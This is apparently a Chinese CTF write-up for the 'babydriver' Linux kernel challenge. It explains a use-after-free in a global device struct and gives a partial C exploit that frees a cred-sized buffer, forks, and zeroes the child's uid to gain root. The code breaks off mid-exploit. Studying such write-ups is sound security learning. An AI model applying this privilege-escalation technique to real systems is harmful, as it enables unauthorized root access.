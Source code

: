关闭设备时会直接 `kfree` 掉 `babydev_struct.device_buf`.
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513569353266d64hcmf1.png?imageslim)

`read` 和 `write` 非常正常的操作。

`ioctl` 时我们可以让 驱动 重新分配我们想要的大小的内存。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513569436033sy1xc56v.png?imageslim)

程序的漏洞在于 `babydev_struct` 是一个全局变量，所以如果我们打开两次该设备，就会有两个 `fd` 可以操作这个结构体，然后释放掉一个，另外剩下的那个就会指向一块已经 `free` 掉的内存， `UAF`.


由于开启了 `smep` ，我们不能使用 `ret2user`的攻击方式。下面介绍两种利用方法。


**修改 cred **




- 进程的权限由 `uid` 决定，所以我们可以通过 `ioctl` 分配和 `cred`结构体同样大小的内存块

- 然后触发漏洞，`free` 掉它，接着通过 `fork` 创建进程，这样该进程的 `cred` 结构体就会使用刚刚 `free` 掉的内存。

- 而此时我们可以使用 `babydriver` 的 `write` 功能修改这块内存。

- 我们可以修改 `cred` 结构体中代表 `uid` 的区域 为 `0`,就实现了 `root`

**exp**


```

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <pthread.h>

#define CRED_SIZE 168
#define DEV_NAME "/dev/babydev"

char buf[100];

int main()
{
    int fd1, fd2, ret;
    char zero_buf[100];
    memset(zero_buf, 0, sizeof(char) * 100);
    fd1 = open(DEV_NAME, O_RDWR);
    fd2 = open(DEV_NAME, O_RDWR);
    // 首先通过ioctl改变第一次open的内存大小，使其和cred结构体一样大小
    ret = ioctl(fd1, 0x10001, CRED_SIZE);
    // release第一次open，释放一个cred结构体一样大小的内存
    close(fd1);
    // fork一个新进程来创建一个cred结构体，这个cred结构体就会用刚刚释放的内存，即UAF内存空间
    int now_uid = 1000; // 当前uid为1000
    int pid = fork();
    if (pid < 0) {
        perror("fork error");
        return 0;
    }

    if (!pid) {
        // 写入28个0，一直到egid及其之前的都变为了0，这个时候就已经会被认为是root了
        ret = write(fd2, zero_buf, 28);
```